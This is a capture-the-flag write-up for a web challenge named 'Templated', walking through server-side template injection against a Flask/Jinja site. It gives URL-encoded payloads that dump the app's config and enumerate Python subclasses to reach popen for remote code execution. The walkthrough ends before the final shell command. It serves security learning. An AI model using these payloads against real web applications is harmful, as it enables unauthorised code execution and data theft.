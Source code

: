 # Templated
> Write-up author: jon-brandy
## DESCRIPTION:
Can you exploit this simple mistake?
## HINT:
- NONE
## STEPS:
1. First, open the host given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/208017009-400c8215-3d3c-435c-a33b-6a2683b533f7.png)


2. Actually the `<p>` tag value does give us a hint, we shall do RCE (Remote Code Execution) with python.
3. In jinja, python will evaluate any command inside the curly brackets.
4. Then it will appear in the HTML of the webpage.
5. To make sure of it, let's insert `config.items()` inside the curly brackets but first encode it into an url using cyberchef.

> ENCODED COMMAND TO URL

```sh
165.232.32.50:31397/%7B%7Bconfig.items()%7D%7D
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/208018797-a54a741f-083b-4351-b5e9-de3141b2c9c1.png)


6. Now we proved that the server is running on flask, to exploit the website, we can make use of MRO (Method Resolution Order).

> NOTES

```
MRO is used to traverse up the request library in flask to import os library.
Once the attacker have access to the os library then "they" can execute any command and it will be rendered to the attacker.

Have access to os library == have the shell access.
```

7. To have access to os library, we need to find the index of a special class in python which has a function called `popen`.
8. Here's how to find it.

> THE COMMAND

```py
{{"".__class__.mro__[1].__subclasses__()}}
```

> ENCODED

```sh
165.232.32.50:31397/%7B%7B%22%22.__class__.mro__%5B1%5D.__subclasses__()%7D%7D
```

